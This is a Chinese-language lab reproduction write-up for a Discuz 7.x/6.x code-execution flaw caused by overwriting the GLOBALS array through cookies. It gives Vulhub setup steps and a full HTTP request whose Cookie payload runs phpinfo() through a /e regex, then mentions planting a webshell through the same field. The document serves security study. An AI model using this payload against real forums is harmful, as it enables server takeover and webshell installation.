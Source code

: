 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

## 漏洞描述

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，也就是说默认配置下`$_REQUEST`只包含`$_GET`和`$_POST`而不包括$_COOKIE。

我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 环境搭建

Vulhub执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![image-20220222112715390](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221127521.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

![image-20220222112923996](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221129105.png)

使用蚁剑连接，构造Webshell![image-20220222130454953](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221304008.png)

设置HTTP Headers中的Cookie字段，将一句话木马写入![image-20220222130429384](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221304489.png)

